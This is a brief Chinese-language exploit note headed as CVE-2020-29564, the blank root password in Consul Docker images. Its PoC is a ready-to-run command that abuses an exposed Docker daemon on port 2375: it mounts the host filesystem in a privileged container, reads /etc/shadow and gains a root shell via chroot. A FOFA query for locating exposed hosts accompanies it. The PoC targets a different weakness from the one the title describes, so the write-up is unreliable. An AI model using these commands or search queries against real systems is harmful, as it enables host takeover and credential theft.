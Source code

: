 # CVE-2020-29564 Consul Docker images 空密码登录漏洞

Consul Docker images 0.7.1至1.4.2版本部署的Consul Docker容器的系统，可能允许远程攻击者使用空白密码来实现root用户访问。

**PoC:**

```bash
docker -H <host>:2375 run --rm -it --privileged --net=host -v /:/mnt alpine

File Access: cat /mnt/etc/shadow
RCE: chroot /mnt
```

FOFA:

```
port="2375" && protocol=="docker"
```

media/16096802412075/16096802747315.jpg)


media/16096802412075/16096802834542.jpg)


**ref：**

* https://forum.ywhack.com/thread-114824-1-2.html
* https://github.com/koharin/koharin2/blob/main/CVE-2020-29564